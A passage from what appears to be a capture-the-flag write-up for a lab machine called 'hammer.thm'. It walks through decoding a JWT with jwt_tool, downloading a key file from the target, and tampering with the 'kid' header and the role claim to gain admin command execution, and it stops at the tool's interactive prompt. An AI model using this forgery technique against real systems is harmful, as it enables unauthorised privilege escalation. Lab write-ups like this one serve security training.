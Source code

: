 ```javascript
            error: function() {
                $('#commandOutput').text('Error executing command.');
            }
        });
    });
});
```

### JWT Token - Examination
Let's use a tool called `jwt_token.py` to examine the token.
> The tool can be found here: https://github.com/ticarpi/jwt_tool
{: .prompt-tip}

```console
$ jwt_tool.py 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzI1MjE0MDc0LCJleHAiOjE3MjUyMTc2NzQsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.F9cMQWLXA68pD7ouNbg7DEroxENwPEXf9U9qlx1G7cc'
```

![3b009e4c6577b32e20b20c6e2903a195.png](3b009e4c6577b32e20b20c6e2903a195.png){: w="500" h="300" .center}

### JWT Token Manipulation - KID Attack
The most interesting thing that caught my eye, was the `kid` header inside the token:
>The kid value indicates what key was used to sign the JWT. For a symmetric key the kid could be used to look up a value in a secrets vault. For an asymmetric signing algorithm, this value lets the consumer of a JWT look up the correct public key corresponding to the private key which signed this JWT. Processing this value correctly is critical to signature verification and the integrity of the JWT payload.
> 
> **Source**: https://fusionauth.io/articles/tokens/jwt-components-explained
{: .prompt-info}

This is when I remembered the `188ade1.key` file and then it clicked.

All we have to do now is manipulate the token so that we change the role from `user` to `admin` and change the `kid` header to point to `/var/www/html/188ade1.key`.

Once we do that we can download the `188ade1.key` file and sign our token with it. Once we send a request, the server will check the `kid` header inside our token and use the `/var/www/html/188ade1.key` file to verify the authenticity of our token. Since the signitures will match, we will run commands as **admin**.

1. Download the `188ade1.key` file:

```console
$ wget http://hammer.thm:1337/188ade1.key
```

2. Manipulate our token:

```console
$ jwt_took.py -T 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzI1MjE0MDc0LCJleHAiOjE3MjUyMTc2NzQsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.F9cMQWLXA68pD7ouNbg7DEroxENwPEXf9U9qlx1G7cc' 
...
Token header values:
[1] typ = "JWT"
[2] alg = "HS256"
[3] kid = "/var/www/mykey.key"
[4] *ADD A VALUE*
[5] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
```